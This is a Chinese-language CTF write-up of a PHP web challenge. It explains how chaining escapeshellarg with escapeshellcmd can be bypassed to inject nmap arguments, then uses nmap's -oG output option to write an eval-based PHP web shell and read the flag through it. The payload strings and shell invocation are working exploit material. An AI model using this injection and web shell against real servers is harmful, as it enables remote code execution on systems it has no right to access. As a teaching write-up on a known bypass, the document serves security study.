 ![](<./img/Pasted image 20221113171258.png>)
```php
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
大家是都不喜欢闭合`php`标签吗QAQ

---
搜索得知，这里`$host`经过`escapeshellarg`和`escapeshellcmd`的处理是可以被绕过的

https://paper.seebug.org/164/
> 1.  传入的参数是：`172.17.0.2' -v -d a=1`
> 2.  经过`escapeshellarg`处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。
> 3.  经过`escapeshellcmd`处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为`escapeshellcmd`对`\`以及最后那个**不配对儿**的引号进行了转义：http://php.net/manual/zh/function.escapeshellcmd.php
> 4.  最后执行的命令是`curl '172.17.0.2'\\'' -v -d a=1\'`，由于中间的`\\`被解释为`\`而不再是转义字符，所以后面的`'`没有被转义，与再后面的`'`配对儿成了一个空白连接符。所以可以简化为`curl 172.17.0.2\ -v -d a=1'`，即向`172.17.0.2\`发起请求，POST 数据为`a=1'`。

```shell
chen@cracktc-no-omen ~> echo '172.17.0.2'\\'' -v -d a=1\'  
172.17.0.2\ -v -d a=1'
```
---
`nmap`的手册中，和输出有关的参数如下
```
OUTPUT:  
  -oN/-oX/-oS/-oG <file>: Output scan results in normal, XML, s|<rIpt kIddi3,  
     and Grepable format, respectively, to the given filename.  
  -oA <basename>: Output in the three major formats at once  
  -v: Increase verbosity level (use twice for more effect)  
  -d[level]: Set or increase debugging level (Up to 9 is meaningful)  
  --packet-trace: Show all packets sent and received  
  --iflist: Print host interfaces and routes (for debugging)  
  --append-output: Append to rather than clobber specified output files  
  --resume <filename>: Resume an aborted scan  
  --stylesheet <path/URL>: XSL stylesheet to transform XML output to HTML  
  --no-stylesheet: Prevent Nmap from associating XSL stylesheet w/XML output
```
因此可以利用`-oG`上传木马

---
想上传的东西是这个
```php
<?php eval($_GET["cmd"]);?> -oG shell.php
```
其中像是`<`、`?`这些特殊符号必会被`escapeshellcmd`加上`\`，我们需要保证这些符号能在shell层面被直接解析
```php
'<?php eval($_GET["cmd"]);?> -oG shell.php '
```
会变成
```php
''\''<?php eval($_GET["cmd"]);?> -oG shell.php '\'''
```
然后变成
```php
''\\''\<\?php eval\(\$_GET\["cmd"\]\)\;\?\> -oG shell.php '\\'''
```
即可被解析

![](<./img/Pasted image 20221113194543.png>)
```php
/xxx/shell.php?cmd=system('cat /flag');
```
![](<./img/Pasted image 20221113194826.png>)

#Web #PHP #RCE #shell